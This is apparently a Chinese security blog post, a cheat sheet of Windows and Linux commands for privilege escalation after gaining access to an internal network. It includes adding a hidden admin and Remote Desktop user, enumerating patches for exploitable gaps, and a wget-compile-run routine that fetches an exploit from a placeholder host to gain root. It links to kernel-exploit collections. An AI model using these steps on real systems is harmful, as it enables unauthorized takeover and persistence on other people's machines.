 ```yaml
---
layout: post
title: 内网提权命令
category: 
  - web安全
tags: 
  - web安全
abbrlink: 3415919552
date: 2018-09-07 00:00:00
description: more
---
```


## Windows基础命令

	net user xx

	query user #查看用户登录情况

	whoami #当前用户权限

	systeminfo #查看当前系统版本与补丁信息

	net user xx 123456 /add #添加用户

	net localgroup administrators xx /add #添加到管理员组

	net localgroup "Remote Desktop Users" xx /add #如远程桌面连接不上那么添加远程桌面组

	ipconfig #查看本机ip信息，可加 /all 参数

	netstat -ano #查看端口情况

	dir c:\ #查看目录

	type c:\Users\admin\Desktop\1.txt #查看指定位置文件内容，一般为文本文件

	echo 字符串>2.txt #写入文本到文件。特殊字符如<>等前面加^

	copy 1.txt 3.php #复制文件

	rename d:\2.txt mspaint.bat #将某个路径下的文件重命名

	tasklist #查看所有进程占用的端口

	taskkill /im xx.ext /f #强制结束指定进程 如 taskkill /im QQMusic.exe /f


## Windows基础提权命令

	查看系统信息
	systeminfo|findstr /B/C:"OS名称"/C:"OS版本"

	主机名
	Hostname

	环境变量
	Set

	查看用户信息
	Net user
	Net1 user

	查看服务pid号
	Tasklist/svc|find "TermService"
	netstat -ano|find "1488"

	查看系统名
	wmic os get caption

	查看补丁信息
	wmic dfe get Description,HotFixID,InstalledOn|findstr /C:"KB4013389" /C:"KB958644"

	查看当前安装程序
	wmic product get name,version

## Linux基础命令

	查看系统版本信息
		cat /etc/issue
		cat /etc/*-release
	查看内核版本
		uname -a



## Linux提权基础命令

	基础命令：
	uname -an
	id
	pwd
	cat /etc/issue

	套路：
	wget http://exp/exp.c
	gcc -o exp exp.c
	chmod +x exp
	./exp
	...到root

## LINK

[【权限提升】Linux 提权常用命令集](https://zhuanlan.zhihu.com/p/42358253)  
[SecWikiGithub](https://github.com/SecWiki)  
[SecWiki](https://www.sec-wiki.com/)  
[Exploit-db本地提权](https://www.exploit-db.com/local/)  
[Windows提权漏洞集合](https://github.com/SecWiki/windows-kernel-exploits)  
[Linux提权漏洞集合](https://github.com/SecWiki/linux-kernel-exploits)  
[Mac-OS提权漏洞集合](https://github.com/SecWiki/macos-kernel-exploits)  




